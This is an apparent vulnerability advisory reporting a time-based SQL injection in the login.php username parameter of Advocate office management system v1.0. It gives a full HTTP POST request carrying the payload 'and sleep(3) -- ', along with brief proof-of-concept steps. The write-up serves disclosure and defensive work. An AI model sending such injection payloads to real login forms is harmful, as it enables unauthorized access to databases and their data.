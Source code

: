 # Advocate office management system login.php time-based SQL Injection Vulnerability

* **Exploit Title**: Advocate office management system login.php time-based SQL Injection Vulnerability
* **Exploit Author**: webraybtl@webray.com.cn inc
* **Vendor Homepage**: https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html[](https://www.sourcecodester.com/download-code?nid=17280&title=Advocate+office+management+system+free+download)
* **Software Link**: https://www.sourcecodester.com/download-code?nid=17280&title=Advocate+office+management+system+free+download
* **Version**: Advocate office management system v1.0
* **Tested on:**  PHP 7.4.33, OpenResty1.21.4.3-3-3-focal
* **CVE:**  Reported, waiting for CVE number.

## Description

Advocate office management system login.php `username`​ parameter has a time-based SQL injection Vulnerability.

#### Payload used

```
POST /control/login.php HTTP/1.1
Host: 192.168.56.128:8080
Referer: http://192.168.56.128:8080/control/login.php
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=c44ka87dik7dcvd007quilufp2
Priority: u=0, i
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------50827837581442896902132243
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Content-Length: 422

-----------------------------50827837581442896902132243
Content-Disposition: form-data; name="username"

mayuri.infospace@gmail.com'and sleep(3) -- '
-----------------------------50827837581442896902132243
Content-Disposition: form-data; name="password"

admin
-----------------------------50827837581442896902132243
Content-Disposition: form-data; name="login"

Login
-----------------------------50827837581442896902132243--


## Proof of Concept

* Visit the login page, fill in the email and password, click login to get the post

  Request package.
* Construct the post request package and send it to the login.php. Successfully saw that the response time was delayed by the specified number of seconds.

​![login](assets/login-20240923170718-nwmo6ev.gif)​

* Upon reviewing the source code, it was discovered that the `username`​ parameter was directly concatenated into the SQL statement.

​![image](assets/image-20240923170853-ia9dx3k.png)​
